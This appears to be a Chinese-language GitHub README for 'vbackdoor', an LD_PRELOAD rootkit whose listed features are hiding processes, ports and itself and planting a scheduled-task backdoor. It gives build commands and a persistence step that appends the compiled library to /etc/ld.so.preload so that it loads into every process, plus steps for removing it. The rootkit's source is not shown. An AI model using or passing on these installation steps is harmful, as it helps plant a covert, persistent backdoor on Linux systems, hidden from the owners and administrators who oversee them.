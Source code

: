 # vbackdoor
使用 LD_PRELOAD rootkit 技术进行隐藏进程、隐藏端口、后门添加、自我隐藏

### 编译（使用时修改vbackdoor.c内容）

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

或者

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### 载入后门

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```

### 卸载后门

```
vi /etc/ld.so.preload
```
并删除内容 /usr/local/lib/vbackdoor.so

或者

使用busybox

```
busybox rm -rf /etc/ld.so.preload
```

  * 进程隐藏
  * LD_PRELOAD 隐藏
  * 端口隐藏
  * 计时任务后门
